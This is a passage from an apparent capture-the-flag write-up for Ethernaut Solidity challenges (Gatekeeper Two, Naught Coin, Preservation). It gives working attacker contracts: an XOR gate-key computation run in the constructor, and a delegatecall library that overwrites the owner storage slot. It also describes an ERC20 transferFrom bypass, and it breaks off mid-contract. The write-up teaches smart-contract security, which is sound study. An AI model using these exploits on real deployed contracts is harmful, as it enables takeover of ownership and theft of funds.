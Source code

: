 ```python
# a = keccak(contract), b = gateKey, c = uint64(-1)
a ^ b == c
a ^ b ^ (b ^ c) == c ^ (b ^ c)
a ^ (b ^ b) ^ c == (c ^ c) ^ b
a ^ 0 ^ c == 0 ^ b
a ^ c == b
```

Here's the final contract:

```solidity
contract GatekeeperTwoAttacker {
    using SafeMath for uint256;
    IGatekeeperTwo public challenge;

    constructor(address challengeAddress) {
        challenge = IGatekeeperTwo(challengeAddress);
        // must attack already in constructor because of extcodesize == 0
        // while the contract is being constructed
        uint64 gateKey = uint64(bytes8(keccak256(abi.encodePacked(this)))) ^ (uint64(0) - 1);
        challenge.enter(bytes8(gateKey));
    }
}
```

## 15. Naught Coin

For this challenge, you need to be familiar with ERC20 tokens and their functions.
The challenge consists of a lockup contract inheriting from ERC20 tokens.
Its `transfer` function has been overwritten to check that one can only withdraw tokens after some time has passed.
However, `transfer` is not the only function in ERC20 that allows for moving tokens. We can combine `allow` and `transferFrom` to transfer tokens. Both functions exist on the lockup contract in their original form due to inheritance and have not been explicitly overwritten.

## 16. Preservation

There is a contract storing another contract address which is called using a `delegatecall` instruction.
This is the same exploit as in challenge _6. Delegation_.

> The thing to know about the `delegatecall` instruction is that the call is executed in the **caller's** context.

First, we call `setFirstTime` on the challenge contract to overwrite the library address with our malicious library.
Using a second call to `setFirstTime`, the challenge contract invokes the `setTime` function **of our contract** which has the exact same storage layout as the challenge contract.
In our malicious `setTime` function, we simply overwrite the third storage slot (`owner`).

```solidity
interface IPreservation {
    function setFirstTime(uint _timeStamp) external;
}

// this one will be called by delegatecall
contract PreservationAttackerLib {
    // needs same storage layout as Preservation, i.e.,
    // we want owner at slot index 2
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function setTime(uint256 _time) public {
        owner = tx.origin;
```